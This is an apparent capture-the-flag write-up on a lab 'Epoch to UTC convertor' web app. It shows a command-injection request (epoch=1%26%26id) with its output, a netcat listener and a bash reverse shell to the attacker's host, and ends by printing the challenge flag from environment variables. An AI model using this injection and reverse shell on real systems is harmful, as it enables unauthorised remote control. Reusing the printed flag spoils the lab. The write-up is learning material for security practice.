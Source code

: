 # Enumeration Phase
## ping scan
```zsh
❯ ping 10.10.138.184
PING 10.10.138.184 (10.10.138.184) 56(84) bytes of data.
64 bytes from 10.10.138.184: icmp_seq=1 ttl=63 time=56.3 ms
64 bytes from 10.10.138.184: icmp_seq=2 ttl=63 time=56.1 ms
^C
--- 10.10.138.184 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 56.136/56.204/56.272/0.068 ms
```
## [[nmap]] scan
```zsh
❯ sudo nmap -sC -sV -p- -oN nmap_results.txt 10.10.138.184  

```
## website source code
```html
<!DOCTYPE html>

<head>
    <link rel="stylesheet" href="[https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css](view-source:https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css)"
        integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
    <style>
        body,
        html {
            height: 100%;
        }
    </style>
</head>

<body>
    <div class="container h-100">
        <div class="row mt-5">
            <div class="col-12 mb-4">
                <h3 class="text-center">Epoch to UTC convertor ⏳</h3>
            </div>
            <form class="col-6 mx-auto" action="[/](view-source:http://10.10.138.184/)">
                <div class=" input-group">
                    <input name="epoch" value="" type="text" class="form-control" placeholder="Epoch"
                        aria-label="Epoch" aria-describedby="basic-addon2" required>
                    <div class="input-group-append">
                        <button class="btn btn-outline-secondary" type="submit">Convert</button>
                    </div>
                </div>
            </form>
            <div class="col-9 mt-4 mx-auto">
                <pre></pre>
            </div>
        </div>
    </div>
</body>

</html>
```
## webapp look
![[Pasted image 20221029123707.png]]
## testing the webapp
Entering value 0 we get Thu Jan  1 00:00:00 UTC 1970
Entering value -1 we get Wed Dec 31 23:59:59 UTC 1969
Entering value  * we get exit status 1
Entering value 1/0 we get exit status 1
## webapp link
```url
http://10.10.138.184/?epoch=1%2F0
```
notes: command injection vuln?
## BurpSuite
```http
GET /?epoch=1%26%26id HTTP/1.1
Host: 10.10.138.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.138.184/?epoch=whoami
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
Notes: 
- I've URL encoded the && operators then put 'id' command after it.
- got the id back.
```html
<pre>Thu Jan  1 00:00:01 UTC 1970
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
</pre>
```
- command injection works.
# Weaponization Phase
## netcat listener
```zsh
❯ nc -nvlp 1234         
Listening on 0.0.0.0 1234
```
# Exploitation Phase
## running basic bash reverse shell
```zsh
bash -i >& /dev/tcp/10.11.4.14/1234 0>&1
```
## receiving a reverse shell
```zsh
❯ nc -nvlp 1234         
Listening on 0.0.0.0 1234
Connection received on 10.10.138.184 57422
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ 
```
# Flag
from the hint:  "The developer likes to store data in environment variables, can you find anything of interest there?"
```zsh
challenge@e7c1352e71ec:/$ printenv
printenv
HOSTNAME=e7c1352e71ec
PWD=/
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/printenv
OLDPWD=/dev
```
```zsh
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
```